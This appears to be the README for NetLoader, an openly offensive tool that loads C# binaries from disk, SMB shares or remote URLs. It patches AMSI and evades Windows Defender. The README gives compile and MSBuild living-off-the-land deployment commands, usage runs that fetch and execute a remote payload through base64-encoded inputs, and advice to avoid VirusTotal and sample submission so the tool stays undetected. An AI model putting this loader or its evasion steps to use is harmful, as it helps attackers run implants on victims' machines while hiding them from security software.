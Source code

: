 # NetLoader
Loads any C# binary from filepath or url, patching AMSI and bypassing Windows Defender on runtime

Latest update / signature fix was 21.06.2020, clean as a whistle
I am doing 24/7 signature checks and pushing updates when possible so I can keep NetLoader undetected (mainly for my own educational purposes).
**Please do not upload to VirusTotal and DISABLE "Sample Submission" when testing / possible**

**Looking for binaries/payloads to deploy? Checkout [SharpCollection](https://github.com/Flangvik/SharpCollection)**!. SharpCollection contains nightly builds of C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines.

# Compile

	c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:RandomName.exe Program.cs

# Deploy via LOLBin (MSBuild)

Payload for MSBuild is in the /LOLBins folder, might push this for varius other LOLBins aswell.
NetLoader has to be used in interactive mode when deployed using MSBuild

	For 64 bit:
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml

	For 32 bit:
	C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe NetLoader.xml

# Usage
Deploy payload from local path or SMB share (note that NetLoader automatically detects whether the path provided is local or remote), non-interactive

	PS C:\Users\Clark Kent\Desktop> .\NetLoader.exe --path Seatbelt.exe --args whoami
	[!] ~Flangvik , ~Arno0x #NetLoader
	[+] Successfully patched AMSI!
	[+] URL/PATH : Seatbelt.exe
	[+] Arguments : whoami


							%&&@@@&&
							&&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
							&%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
	%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
	#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
	#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
	#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
	#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
	###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
	#####%######################  %%%..                       @////(((&%%%%%%%################
							&%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
							&%%&&&%%%%%        v1.0.0         ,(((&%%%%%%%%%%%%%%%%%,
							 #%%%%##,


	ERROR: Error running command "whoami"


	[*] Completed collection in 0,008 seconds


Supports base64 inputs for those long strings that would usually break stuff! (non-interactive)

	PS C:\Users\Clark Kent\Desktop> .\NetLoader.exe --b64 --path U2VhdGJlbHQuZXhl --args d2hvYW1p
	[!] ~Flangvik , ~Arno0x #NetLoader
	[+] All arguments are Base64 encoded, decoding them on the fly
	[+] Successfully patched AMSI!
	[+] URL/PATH : Seatbelt.exe
	[+] Arguments : whoami


							%&&@@@&&
							&&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
							&%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
	%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
	#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
	#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
	#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
	#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
	###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
	#####%######################  %%%..                       @////(((&%%%%%%%################
							&%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
							&%%&&&%%%%%        v1.0.0         ,(((&%%%%%%%%%%%%%%%%%,
							 #%%%%##,


	ERROR: Error running command "whoami"


	[*] Completed collection in 0,006 seconds

Deploy payload from remote URI with args, input is base64 in interactive mode

	PS C:\Users\Clark Kent\Desktop> .\NetLoader.exe
	[!] ~Flangvik , ~Arno0x #NetLoader
	[?] Input X in any field to exit!
	[?] Is all input base64 encoded ? y/n -> y
	[?] Input path or url -> aHR0cHM6Ly9naXRodWIuY29tL0ZsYW5ndmlrL1NoYXJwQ29sbGVjdGlvbi9yYXcvbWFzdGVyL05ldEZyYW1ld29ya180LjBfeDY0L1NlYXRiZWx0LmV4ZQ==
	[?] Is the payload data XOR encrypted ? y/n -> n
	[?] Input payload args (optional) -> d2hvYW1p
	[+] Successfully patched AMSI!
	[+] URL/PATH : https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_x64/Seatbelt.exe
	[+] Arguments : whoami


							%&&@@@&&
							&&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
							&%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
	%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
	#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
	#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
	#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
	#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
	###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
	#####%######################  %%%..                       @////(((&%%%%%%%################
							&%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
							&%%&&&%%%%%        v1.0.0         ,(((&%%%%%%%%%%%%%%%%%,
							 #%%%%##,


	ERROR: Error running command "whoami"


	[*] Completed collection in 0,004 seconds

# Todo
- [X]  Automate the build and release of many of the Sharp Tools so they automagically appear in ~~/Binaries~~ [SharpCollection](https://github.com/Flangvik/SharpCollection) (CDI / Azure DevOps)
- [X]  Add support for non-interactive use (input args)
- [X]  Add support to run custom modules from your own URL or SMB Share (Great for on-the-fly Implant deployment)
- [X]  Add an working MSBuild XML payload for the LOLBins lovers (Myself included)
- [X]  Update with credits and links to the github repos that ~~/Binaries~~ [SharpCollection](https://github.com/Flangvik/SharpCollection) are compiled from

# Credits
[Arno0x](https://twitter.com/Arno0x0x) for the partial rewrite that is now merged into the main repo [see gist](https://gist.github.com/Arno0x/2b223114a726be3c5e7a9cacd25053a2)
[_RastaMouse](https://twitter.com/_RastaMouse/) for the [AMSI bypass](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs)


